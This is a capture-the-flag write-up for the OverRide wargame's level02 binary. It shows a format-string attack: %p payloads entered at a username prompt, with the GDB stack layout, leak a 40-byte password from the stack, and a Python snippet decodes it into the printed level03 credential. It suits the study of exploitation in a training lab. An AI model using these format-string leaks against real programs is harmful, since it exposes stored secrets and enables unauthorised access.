 Level02 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```

Level02 rights:
```Shell
-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02
```

The program asks for a username and password:
```Shell
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: name
--[ Password: pass
*****************************************
name does not have access!
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows three things:
- the program opens the password file and stores it in a buffer
- `printf()` is used to display the username, but it is vulnerable to format string attack
- the comparison between the password and our input is performed over 40 bytes, so we can deduce that this is the length of the password.
Since it is stored on the stack, we will exploit `printf()` with the `%p` specifier to display it.

First, let's use GDB to take a look at the three memory allocations:
```Shell
(gdb) disas main
[...]
   0x000000000040082c <+24>:    lea    -0x70(%rbp),%rdx           // user_pass[112]
[...]
   0x0000000000400849 <+53>:    lea    -0xa0(%rbp),%rdx           // password[48]
[...]
   0x0000000000400869 <+85>:    lea    -0x110(%rbp),%rdx          // user_name[112]
[...]
 ```
There is an offset of 48 bytes beetween the password buffer and the user_name buffer. So we know taht only the first 40 bytes will contain the password.

Next, we need to print the stack and find out where our buffer is, and this allows us to also peek at values stored higher on the stack:
```Shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: coucou
*****************************************
AAAAAAAA 0x7fffffffe500 (nil) 0x63 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x756f63756f63 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0xfeff00 0x4141414141414141 0x2520702520702520 0x2070252070252070 does not have access!
```
The user_name buffer starts at the 28th argument, `0x4141414141414141`. The 27th argument contains the last 8 bytes of the pass buffer, so we can skip that and get the 5 previous arguments (40 / 8, as addresses are 8 bytes long) to display the entire password.

```Shell
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password: 
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```

Good, we have the entire password, but we need to:
- convert each value from hexadecimal to characters
- reverse them from little endian to big endian
- concatenate each strings to form the final password.

Using a python script can help make it fast and easy:
```Python
>>> hex_values = [
...     "756e505234376848",
...     "45414a3561733951",
...     "377a7143574e6758",
...     "354a35686e475873",
...     "48336750664b394d"
... ]
>>> 
>>> result = ''.join(
...     bytes.fromhex(h)[::-1].decode('ascii', errors='ignore') 
...     for h in hex_values
... )
>>> 
>>> print(result)
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```